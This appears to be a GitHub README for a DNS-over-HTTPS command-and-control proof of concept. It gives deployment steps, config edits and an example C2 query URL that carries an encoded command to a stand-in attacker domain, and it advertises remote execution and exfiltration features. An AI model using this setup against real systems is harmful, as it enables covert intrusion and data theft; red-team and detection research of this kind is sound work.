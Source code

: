 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Architecture
![image](https://github.com/user-attachments/assets/e0e0c705-e5a2-4934-b265-f70e39ca668b)  

The python program on the client side sends HTTPS request (TCP/443) to DoH Server to resolve a destination domain where the c2 is hosted, e.g send.example.com.co using a  the legit DOH server, json query like https://dns.belnet.be/dns-query?name=google.com &type=TXT  
An attacker can use the part which is between the name and ‘&’ to inject txt record which is not bigger than 512 bytes of size e.g https://dns.belnet.be/dns-query?name=SINGLE-1-K5EE6QKNJEFA====.send.example.com.co&type=TXT  
'SINGLE-1-K5EE6QKNJEFA===='  => the base32 encoded query (K5EE6QKNJEFA====  is basically WHOAMI )  
send.example.com.co => the DNS c2 server  
The belnet.be is instructed to query the send.example.com.co DNS server for the TXT record.  
The DNS server send.example.com.co then returns back txt record in which instructions are send what the client needs to perform next. Bellow is example it the answer section of the response are the instructions the client/malware will execute.  

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.  

Only google DoH is used.  

# Scenario 1 - Using Public DoH Server
![image](https://github.com/user-attachments/assets/d26b3309-d164-4344-8dcb-94c10e7e6291)

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py


# Detection Tips TODO
